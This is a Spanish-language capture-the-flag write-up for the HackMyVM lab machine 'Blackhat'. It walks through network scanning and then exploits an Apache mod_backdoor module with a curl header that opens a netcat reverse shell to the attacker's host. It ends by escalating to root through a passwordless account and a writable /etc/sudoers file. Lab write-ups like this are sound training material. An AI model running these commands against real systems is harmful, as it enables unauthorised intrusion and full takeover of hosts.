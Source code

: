```yaml
---
layout: post
title: Blackhat - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/blackhat/blackhat_1.png#center)

## Reconocimiento

Lo primero es conocer la IP de la máquina víctima. La puedo encontrar con el siguiente comando:

```
$ sudo arp-scan -l | grep -i pc
```

Y en mi caso la direccion es "192.168.1.79"

Tras esto, realizo un escaneo rápido con nmap para ver que tiene el puerto 80 abierto.

```
$ sudo nmap 192.168.1.79  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 16:18 EST
Nmap scan report for 192.168.1.79
Host is up (0.00022s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:F3:BA:56 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds
```

Con "gobuster" encuentro el archivo "phpinfo.php".

El servidor está usando el módulo "mod_backdoor". Si lo buscamos en google encontraremos un script en python echo por [WangYihang](https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor/blob/master/exploit.py) que nos permite ejecutar comandos en el servidor.

![img](/imgs/write-ups/hackmyvm/blackhat/blackhat_2.png#center)

## Explotación

Obtengo una shell inversa con

```
$ curl -H "Backdoor: nc -e /bin/bash 192.168.1.168 1234" http://192.168.1.79
```

## Escalado de privilegios

Tras una pequeña enumeración veo que existe el usuario "darkdante" y casualmente no tiene contraseña, por lo que simplemente ejecutando

```
www-data@blackhat:/$ su darkdante
darkdante@blackhat:/$ :)
```

Obtengo sesión con dicho usuario.

Continuando con la enumeración para llegar a root encuentro que puedo modificar el archivo "/etc/sudoers":

```
darkdante@blackhat:/$ getfacl /etc/sudoers
getfacl /etc/sudoers
getfacl: Removing leading '/' from absolute path names
# file: etc/sudoers
# owner: root
# group: root
user::r--
user:darkdante:rw-
group::r--
mask::rw-
other::---
```

Por lo que obtener privilegios de root es trivial.

```
darkdante@blackhat:/$ echo "darkdante ALL=(ALL:ALL) ALL" > /etc/sudoers
darkdante@blackhat:/$ sudo su
root@blackhat:/#
```

Muchas gracias a **Cromiphi** por esta máquina.
